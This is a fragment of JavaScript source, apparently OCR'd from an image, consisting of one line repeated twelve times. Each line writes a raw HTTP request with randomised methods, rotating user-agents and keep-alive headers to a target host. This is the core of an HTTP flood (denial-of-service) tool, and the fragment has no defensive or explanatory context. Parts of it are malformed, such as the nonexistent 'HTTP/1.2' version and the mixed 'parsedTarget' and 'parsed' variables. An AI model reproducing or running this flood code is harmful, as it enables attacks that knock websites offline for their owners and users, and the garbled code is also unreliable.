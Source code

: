 s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');